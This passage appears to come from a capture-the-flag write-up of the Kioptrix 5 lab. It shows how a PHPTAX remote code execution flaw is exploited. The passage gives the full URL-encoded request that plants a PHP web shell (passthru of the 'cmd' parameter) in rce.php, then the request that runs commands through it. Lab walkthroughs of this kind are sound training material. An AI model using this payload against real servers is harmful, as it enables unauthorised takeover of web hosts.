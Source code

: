 What is **"PHPTAX"** in the first place?

>**"PHPTAX"** is software used to calculate U.S. income taxes. The application is prone to a remote code-execution vulnerability because it fails to sanitize user-supplied input submitted to the ‘pfilez’ parameter of the ‘drawimage.php’ script.
{: .prompt-info }

After using `searchsploit` I found out that there are two methods to exploit this software:

![Desktop View](/assets/img/posts/2024-06-21-kioptrix-5-boot-to-root/pic19.png)

## Method 1: File Manipulation ‘newvalue’ / Remote Code Execution

The exploit simply creates a file named rce.php and injects the following PHP code into it: <?php passthru($_GET[‘cmd’]); ?>. We then use the cmd parameter to execute our malicious commands on the web server.

First, we use the URL-encoded payload in the URL, so it will be:

```
http://192.168.109.148:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

Using that URL, we created the file. Now, we should send a request to the file location with the `cmd` parameter to execute our commands. Let’s say we want to run the `id` command, so the URL will be:

```
http://192.168.109.148:8080/phptax/data/rce.php?cmd=id
```

![Desktop View](/assets/img/posts/2024-06-21-kioptrix-5-boot-to-root/pic20.png)
